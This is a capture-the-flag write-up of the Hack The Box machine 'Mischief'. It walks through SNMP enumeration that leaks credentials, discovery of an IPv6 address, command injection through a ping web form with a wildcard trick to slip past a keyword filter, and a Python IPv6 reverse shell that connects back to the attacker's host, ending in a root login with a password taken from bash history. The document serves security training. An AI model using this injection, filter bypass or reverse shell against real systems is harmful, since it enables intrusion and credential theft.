

# HTB Mischief (10.10.10.92) MACHINE WRITE-UP

### TABLE OF CONTENTS

- [PART 1 : INITIAL RECON](#part-1--initial-recon)
- [PART 2 : PORT ENUMERATION](#part-2--port-enumeration)
  - [UDP PORT 161 (snmp)](#udp-port-161-snmp)
  - [TCP PORT 3366 (http, IPv4)](#tcp-port-3366-http-ipv4)
  - [TCP PORT 80 (http, IPv6)](#tcp-port-80-http-ipv6)
- [PART 3 : EXPLOITATION](#part-3--exploitation)
- [PART 4 : GENERATE USER SHELL](#part-4--generate-user-shell)
- [PART 5.1 : PRIVILEGE ESCALATION (loki -&gt; root)](#part-51--privilege-escalation-loki---root)
- [PART 5.2 : PRIVILEGE ESCALATION (www-data -&gt; root)](#part-52--privilege-escalation-www-data---root)

---

## PART 1 : INITIAL RECON

```console
$ nmap --min-rate 1000 -p- -sT -sU -v 10.10.10.92

  22/tcp   open  ssh
  3366/tcp open  creativepartnr
  161/udp  open  snmp

$ nmap -oN mischief -p 22,161,3366 -sC -sT -sU -sV -v 10.10.10.92

  22/tcp   open          ssh            OpenSSH 7.6p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
  | ssh-hostkey:
  |   2048 2a:90:a6:b1:e6:33:85:07:15:b2:ee:a7:b9:46:77:52 (RSA)
  |   256 d0:d7:00:7c:3b:b0:a6:32:b2:29:17:8d:69:a6:84:3f (ECDSA)
  |_  256 3f:1c:77:93:5c:c0:6c:ea:26:f4:bb:6c:59:e9:7c:b0 (ED25519)
  3366/tcp open          caldav         Radicale calendar and contacts server (Python BaseHTTPServer)
  | http-auth:
  | HTTP/1.0 401 Unauthorizedx0D
  |_  Basic realm=Test
  | http-methods:
  |_  Supported Methods: GET HEAD
  |_http-server-header: SimpleHTTP/0.6 Python/2.7.15rc1
  |_http-title: Site doesn't have a title (text/html).
  161/udp  open          snmp           SNMPv1 server; net-snmp SNMPv3 server (public)
  | snmp-info:
  |   enterprise: net-snmp
  |   engineIDFormat: unknown
  |   engineIDData: b6a9f84e18fef95a00000000
  |   snmpEngineBoots: 19
  |_  snmpEngineTime: 59m39s
  | snmp-interfaces:
  |   lo
  |     IP address: 127.0.0.1  Netmask: 255.0.0.0
  |     Type: softwareLoopback  Speed: 10 Mbps
  |     Status: up
  |     Traffic stats: 0.67 Kb sent, 0.67 Kb received
  |   Intel Corporation 82545EM Gigabit Ethernet Controller (Copper)
  |     IP address: 10.10.10.92  Netmask: 255.255.255.0
  |     MAC address: 00:50:56:b9:2c:07 (VMware)
  |     Type: ethernetCsmacd  Speed: 1 Gbps
  |     Status: up
  |_    Traffic stats: 618.08 Kb sent, 23.39 Mb received
  | snmp-netstat:
  |   TCP  0.0.0.0:22           0.0.0.0:0
  |   TCP  0.0.0.0:3366         0.0.0.0:0
  |   TCP  10.10.10.92:22       10.10.14.213:32850
  |   TCP  10.10.10.92:22       10.10.14.213:32864
  |   TCP  10.10.10.92:22       10.10.15.54:40920
  |   TCP  10.10.10.92:22       10.10.16.63:40704
  |   TCP  10.10.10.92:3366     10.10.14.213:47812
  |   TCP  10.10.10.92:3366     10.10.14.213:47814
  |   TCP  10.10.10.92:3366     10.10.14.213:47816
  |   TCP  10.10.10.92:3366     10.10.14.213:47818
  |   TCP  10.10.10.92:3366     10.10.14.213:47820
  |   TCP  127.0.0.1:3306       0.0.0.0:0
  |   TCP  127.0.0.53:53        0.0.0.0:0
  |   UDP  0.0.0.0:161          *:*
  |   UDP  0.0.0.0:34424        *:*
  |_  UDP  127.0.0.53:53        *:*
  | snmp-sysdescr: Linux Mischief 4.15.0-20-generic #21-Ubuntu SMP Tue Apr 24 06:16:15 UTC 2018 x86_64
  |_  System uptime: 59m39.09s (357909 timeticks)
  |_snmp-win32-software:
  Service Info: Host: Mischief; OS: Linux; CPE: cpe:/o:linux:linux_kernel

```
__NOTE(S)__:
- An SNMP service is running at __UDP PORT 161__.
- The web service running on __TCP PORT 3366__ is served using a __Python BaseHTTPServer__.

---

## PART 2 : PORT ENUMERATION

### UDP PORT 161 (snmp)

- __`snmpwalk`__:
  ```console
  $ snmpwalk -c public 10.10.10.92 -v 2c

    iso.3.6.1.2.1.1.1.0 = STRING: "Linux Mischief 4.15.0-20-generic #21-Ubuntu SMP Tue Apr 24 06:16:15 UTC 2018 x86_64"
    iso.3.6.1.2.1.1.2.0 = OID: iso.3.6.1.4.1.8072.3.2.10
    iso.3.6.1.2.1.1.3.0 = Timeticks: (4642890) 12:53:48.90
    iso.3.6.1.2.1.1.4.0 = STRING: "Me "
    iso.3.6.1.2.1.1.5.0 = STRING: "Mischief"
    iso.3.6.1.2.1.1.6.0 = STRING: "Sitting on the Dock of the Bay"
    ...omitted...

  ```
  __NOTE(S)__:
  - Processes (__`hrSWRunEntry`__):
    ```console
      iso.3.6.1.2.1.25.4.2.1.4.608 = STRING: "python"
      ...omitted...
      iso.3.6.1.2.1.25.4.2.1.5.608 = STRING: "-m SimpleHTTPAuthServer 3366 loki:godofmischiefisloki --dir /home/loki/hosted/"
      ...omitted...
    ```
    - The process for the hosted webservice is found.
    - HTTP Authentication credentials are found - __`loki : godofmischiefisloki`__
    - The web service is hosted from __`/home/loki/hosted`__

  - IPv6 Addresses (__`ipAddressIfIndex`__):
    ```console
    $ snmpwalk -c public -v 2c 10.10.10.92 iso.3.6.1.2.1.4.34.1.3.2.16

      iso.3.6.1.2.1.4.34.1.3.2.16.0.0.0.0.0.0.0.0.0.0.0.0.0.0.0.1 = INTEGER: 1
      iso.3.6.1.2.1.4.34.1.3.2.16.222.173.190.239.0.0.0.0.2.80.86.255.254.185.245.54 = INTEGER: 2
      iso.3.6.1.2.1.4.34.1.3.2.16.254.128.0.0.0.0.0.0.2.80.86.255.254.185.245.54 = INTEGER: 2

    ```
    - The 1st one is the __Loopback Address__.
    - The 2ns one is the __Unique-Local Address__.
    - The 3rd one is the __Link Local Address__.

  - Evaluate the __`IPv6`__ address of the system:
    ```sh
    unique_local_oid=$(snmpwalk -c public -v 2c 10.10.10.92 iso.3.6.1.2.1.4.34.1.3.2.16.222 | sed -ne 's/^.*\(222.*\) =.*$/\1/p')

    unique_local_dec=$(echo $unique_local_oid | tr '.' ' ')

    unique_local_hex=$(printf '%02x' $unique_local_dec)
 
    ipv6=$(echo -n $unique_local_hex | fold -w4 | tr '\n' ':')
    ```
    ```console
    $ echo $ipv6

      dead:beef:0000:0000:0250:56ff:fea4:29f2

    ```

  - See if there are other ports open for __IPv6__:
    ```console
    $ nmap -6 --min-rate 1000 -p- -v dead:beef:0000:0000:0250:56ff:fea4:29f2
      
      22/tcp   open     ssh
      80/tcp   open     http

    $ nmap -6 -p22,80 -sC -sV -v $ipv6

      22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
      | ssh-hostkey:
      |   2048 2a:90:a6:b1:e6:33:85:07:15:b2:ee:a7:b9:46:77:52 (RSA)
      |   256 d0:d7:00:7c:3b:b0:a6:32:b2:29:17:8d:69:a6:84:3f (ECDSA)
      |_  256 3f:1c:77:93:5c:c0:6c:ea:26:f4:bb:6c:59:e9:7c:b0 (ED25519)
      80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
      |_http-server-header: Apache/2.4.29 (Ubuntu)
      |_http-title: 400 Bad Request
      Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

    ```
    - There is another __http service__ open using __IPv6__.

### TCP PORT 3366 (http, IPv4)

- __`http://10.10.10.136`__:

  

  __NOTE(S)__:
  - The credentials were found during the SNMP enumeration.

- Logging in using __`loki : godofmischiefisloki`__:

  

  __NOTE(S)__:
  - Two sets of credentials are found:
    
    Username | Password
    --- | ---
    loki | godofmischiefisloki
    loki | trickeryanddeceit

### TCP PORT 80 (http, IPv6)

- __`http://[dead:beef:0000:0000:0250:56ff:fea4:29f2]/`__

  

- Attempt Logging in using the credentials found on __PORT 3366__

  
  
  __NOTE(S)__:
  - The credential pair, __`administrator : trickeryanddeceit`__, worked.
  - So far, only the __`ping`__ command could be executed.
  - __`In my home directory, i have my password in a file called credentials, Mr Admin`__

---

### PART 3 : EXPLOITATION

- Bypass the command execution in the service running on __port 80__:
  ```console
  $ ping -c 2 127.0.0.1; id
    
    PING 127.0.0.1 (127.0.0.1) 56(84) bytes of data.
    64 bytes from 127.0.0.1: icmp_seq=1 ttl=64 time=0.020 ms
    64 bytes from 127.0.0.1: icmp_seq=2 ttl=64 time=0.061 ms

    --- 127.0.0.1 ping statistics ---
    2 packets transmitted, 2 received, 0% packet loss, time 1028ms
    rtt min/avg/max/mdev = 0.020/0.040/0.061/0.021 ms
    Command was executed succesfully!

  $ id; ping -c 2 127.0.0.1
    
    uid=33(www-data) gid=33(www-data) groups=33(www-data)
    Command was executed succesfully!

  ```
  __NOTE(S)__:
  - The command execution could be bypassed by using a __`;`__.
  - The first command is the only one being executed

---

## PART 4 : GENERATE USER SHELL

- Take the file called __`credentials`__ from the __`home directory`__:
  ```console
  $ echo /home/*; ping -c 2 127.0.0.1

    /home/loki
    Command was executed succesfully!

  $ echo /home/loki/*; ping -c 2 127.0.0.1
 
    /home/loki/credentials /home/loki/hosted /home/loki/user.txt
    Command was executed succesfully!

  $ cat /home/loki/credentials; ping -c 2 127.0.0.1

    Command is not allowed.

  $ cat /home/loki/cred*; ping -c 2 127.0.0.1

    pass: lokiisthebestnorsegod
    Command was executed succesfully!

  ```
  __NOTE(S)__:
  - The word __`credentials`__ is being filtered out by the service.
  - It was bypassed by using a __wildcard__.

- Login via __`ssh`__:
  ```console
  $ ssh -l loki 10.10.10.92
    The authenticity of host '10.10.10.92 (10.10.10.92)' can't be established.
    ECDSA key fingerprint is SHA256:deaxXTK7ORthfGcKdblPRUmgNrU20oclqMbwVj3hzYI.
    Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
    Warning: Permanently added '10.10.10.92' (ECDSA) to the list of known hosts.
  $ loki@10.10.10.92's password: lokiisthebestnorsegod
  
  $ cat user.txt

    bf58........................0060

  ```

---

## PART 5.1 : PRIVILEGE ESCALATION (loki -> root)

- Check for interesting files in __`loki`__'s home directory:
  ```console
  $ ls -lah ~
    
    -rw------- 1 loki loki  192 Jul 14  2018 .bash_history
    ...omitted...
    -rw-rw-r-- 1 loki loki   28 May 17  2018 credentials
    ...omitted...
    -rw-r--r-- 1 loki loki    0 May 14  2018 .sudo_as_admin_successful
    -r-------- 1 loki loki   33 May 17  2018 user.txt
    ...omitted...

  $ cat .bash_history
   
    python -m SimpleHTTPAuthServer loki:lokipasswordmischieftrickery
    ...omitted...
    sudo su
    su
    exit
    su root
    ...omitted...
    exit

  ```
  __NOTE(S)__:
  - There was an attempt to execute __`su root`__ in the __`.bash_history`__.
  - There is a __`.sudo_as_admin_successful`__ which might mean the attempt was successful.
  - A previously unknown credential pair was used to initialize the python __`simpleHTTPAuthServer`__.
    - This might be a lead for the __root password__.

- Attempt to execute __`su root`__:
  ```console
  $ su root
 
    -bash: /bin/su: Permission denied

  ```

- Check privileges for the __`su`__ command:
  ```console
  $ getfacl -R -s / 2>/dev/null | grep -A 9 su
    
    # file: usr/bin/sudo
    # owner: root
    # group: root
    # flags: s--
    user::rwx
    user:loki:r--
    group::r-x
    mask::r-x
    other::r-x

    # file: bin/su
    # owner: root
    # group: root
    # flags: s--
    user::rwx
    user:loki:r--
    group::r-x
    mask::r-x
    other::r-x
  
  ```
  __NOTE(S)__:
  - The user, __`loki`__, only has read (__`r--`__) permissions for both __`su`__ and __`sudo`__
  - Good thing we still have access to another user -- __`www-data`__

---

## PART 5.2 : PRIVILEGE ESCALATION (www-data -> root)

- Set-up a listener for IPv6:
  ```console
  $ socat TCP6-LISTEN:4444 stdout
  ```

- Execute an IPv6 reverse shell on the web service running on __port 80__:
  ```console
  $ python -c 'import socket,subprocess,os,pty;s=socket.socket(socket.AF_INET6,socket.SOCK_STREAM);s.connect(("dead:beef:2::100e",4444,0,0));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=pty.spawn("/bin/sh");'; ping -c 2 127.0.0.1
  ```

- While inside the __reverse shell__:
  ```console
  $ id 

    uid=33(www-data) gid=33(www-data) groups=33(www-data)

  $ su
  $ Password: lokipasswordmischieftrickery

  $ id
   
    uid=0(root) gid=0(root) groups=0(root)

  $ cat /root/root.txt

    The flag is not here, get a shell to find it!

  $ find / -name root.txt -type f -uid 0

    /usr/lib/gcc/x86_64-linux-gnu/7/root.txt
    /root/root.txt

  $ cat /usr/lib/gcc/x86_64-linux-gnu/7/root.txt

    ae15........................7807

  ```
